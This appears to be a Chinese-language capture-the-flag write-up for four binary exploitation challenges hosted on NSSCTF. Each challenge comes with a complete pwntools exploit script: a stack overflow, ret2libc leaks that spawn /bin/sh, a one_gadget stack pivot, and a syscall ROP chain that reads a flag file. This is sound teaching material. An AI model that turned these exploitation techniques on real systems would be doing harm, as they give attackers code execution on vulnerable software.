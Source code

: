 # Hello_world
签到题，利用栈溢出漏洞劫持返回函数至`backdoors`即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
ip = 'node2.anna.nssctf.cn'
port = 28485
if local:
	p = process('./Hello_world')
	pwnlib.gdb.attach(p, 'b func1')
else:
	p = remote(ip, port)
	# p = websocket()

payload = b'a' * (0x20 + 8) + b'\xc5'
p.send(payload)
p.interactive()
```
# ret2libc1
菜单题，可以找到栈溢出漏洞在`shop`函数里
![[Pasted image 20250302221923.png]]
`main`函数中可以找到当输入7时会执行`see_it`函数，可以刷钱，刷了钱后便可以买下商店触发栈溢出漏洞。
![[Pasted image 20250302222124.png]]
利用该漏洞可以泄漏`libc`基址构造`rop`。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
ip = 'node2.anna.nssctf.cn'
port = 28561
if local:
	p = process('./attachment')
	pwnlib.gdb.attach(p, 'b ')
else:
	p = remote(ip, port)
	# p = websocket()

elf = ELF('./attachment')
libc = ELF('./libc.so.6')

ret = 0x400579
pop_rdi = 0x400d73

p.recvuntil(b'6.check youer money\n')
p.sendline(b'7')
p.recvuntil(b'exchange?')
p.sendline(b'1000')
p.recvuntil(b'6.check youer money\n')
p.sendline(b'5')
p.recvuntil(b'name it!!!\n')

payload = b'a' * (0x40 + 8)
payload += p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x400b1e)

p.sendline(payload)

puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.info('puts_addr: ' + hex(puts_addr))

libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload = b'a' * (0x40 + 8)
payload += p64(ret) + p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr)
p.recvuntil(b'name it!!!\n')
p.sendline(payload)

p.interactive()
```

# ret2libc2
`one_gadget`类型的题目。
需要先想办法泄漏`libc`基址，因为不能直接控制`pop rdi; ret` 需要找别的方法。
![[Pasted image 20250302222628.png]]
能想到的方法就是利用`printf`函数将函数的`got`泄漏出来
![[Pasted image 20250302222757.png]]
从汇编可以看出这里将`rbp - 0x10`赋给`rax`，所以在第一次`read`时将某一函数的`got + 0x10`放在此处即可，如下图
![[Pasted image 20250302223055.png]]
泄漏之后可以算出`libc`基址，查找使用哪个`gadget`
![[Pasted image 20250302223226.png]]
可以发现都需要`rbp-0xXX`可以执行，可以看到有`leave ret`，将`rbp`迁移到一个可执行的位置即可。
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = True
ip = 'node2.anna.nssctf.cn'
port = 28713
if local:
	p = process('./ret2libc2')
	pwnlib.gdb.attach(p, 'b func')
else:
	p = remote(ip, port)
	# p = websocket()

elf = ELF('./ret2libc2')
libc = ELF('./libc.so.6')
ret = 0x40101a

p.recvuntil(b'magic')
payload = p64(elf.got['puts']) + b'\x00' * 0x28 + p64(elf.got['setvbuf'] + 0x10) + p64(0x401223)
p.send(payload)

p.recvuntil(b'\n')
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.success('puts_addr: ' + hex(puts_addr))
libc_base = puts_addr - libc.symbols['setvbuf']
log.success('libc_base: ' + hex(libc_base))

system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

ogg = libc_base + 0xebc81

p.recvuntil(b'magic')
payload = b'\x00' * (0x30) + p64(elf.bss() + 0x100) + p64(ogg)

p.send(payload)

p.interactive()
```
# stack
反编译后的伪代码看不出什么，需要直接看汇编
![[Pasted image 20250302223649.png]]
主函数`print`了两个``msg``以及一个`rsp`指针，然后`read`之后跳转到`rsp`指的地方
![[Pasted image 20250302223809.png]]
再看看`print`函数以及`gadgets`函数，利用这些可以做到控制`rax,rsi,rdi,rbx,r13,r15`，
![[Pasted image 20250302224032.png]]
接受一下泄漏的地址可以发现是栈地址，可以把文件路径存在这里后面调用。
调试很久本打算控制寄存器调用`execve`直接`binsh`，但发现不能控制`rdx`用不了execve（也可能我哪里弄错了），最后选择构造`orw`。
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = True
ip = 'node2.anna.nssctf.cn'
port = 28073
if local:
	p = process('./stack')
	pwnlib.gdb.attach(p, 'b *0x401033')
else:
	p = remote(ip, port)
	# p = websocket()  

ret = 0x401013
elf = ELF('./stack')

p.recvuntil(b'\x20\x29\x0a')
recv = u64(p.recv(6).ljust(8, b'\x00'))
log.success(f'recv: {hex(recv)}')

p.recvuntil(b'\x3e\x3e\x20')
payload = flat([
	# open
	0x401017,
	0,
	0,
	'./flag\x00\x00', # 将路径存在泄漏的栈地址
	0x401017,
	0,
	0,
	0,
	2,                # r13赋值open的系统调用，后面赋给rax
	0x40100c,
	0x401017,
	0,
	0,
	0,
	0x401017,
	0,
	recv,             # rdi赋值flag地址
	0,
	0,
	0x401077,         # syscall系统调用
	# read
	0x401017,
	0,
	0,
	0,                # r13赋值read的系统调用
	0x40100c,
	0x401017,
	0,
	0,
	0,
	0x401017,
	0x4023d0,         # rsi赋值缓存地址
	3,                # rdi赋值fd文件符
	0,
	0,
	0x401077,         # syscall
	# write
	0x401017,
	0,
	0,
	1,                # write系统调用
	0x40100c,
	0x401017,
	0,
	0,
	0,
	0x401017,
	0x402000 - 0x10, # rsi缓存地址
	1,               # rdi fd文件符
	0,
	0,
	0x401077,
])
p.sendline(payload)

p.interactive()
```